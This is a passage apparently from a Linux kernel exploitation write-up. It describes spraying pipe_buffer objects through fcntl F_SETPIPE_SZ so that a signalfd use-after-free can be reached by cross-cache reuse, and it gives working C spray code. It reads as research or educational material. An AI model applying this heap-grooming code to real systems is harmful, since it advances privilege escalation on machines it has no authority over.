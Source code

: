 ![uaf_1](/assets/images/uaf_1.png)

## Spray pipe_buffer to locate signalfd

To manage a PTE, we need to allocate them from the buddy allocator. Then, we need to perform cross-cache on the signalfd UAF object to allocate PTEs over it. To achieve this, we perform a spray of `pipe_buffer` objects of size 128. In the `fcntl()` function, the third argument is 4096 * n, where n is a power of 2, which determines the size of the `pipe_buffer` object as 40 * n.

```C
/* spray pipe_buffer */
char buf[(2 << 12)];
for (int64_t i = 0; i < MAX_PIPES; i++) {
	
	// pin_cpu(i % ncpu);
	
	// The arg has to be pow of 2
	if (fcntl(pipefd[i][1], F_SETPIPE_SZ, 4096 * 2) < 0) {
		printf("[-] fcntl: %d\n", errno);
		exit(0);
	}
	
	*(int64_t *) buf = i;

	if (write(pipefd[i][1], buf, (1 << 12) + 8) < 0) {
		printf("[-] write: %d\n", errno);
		exit(0);
	}
}
```
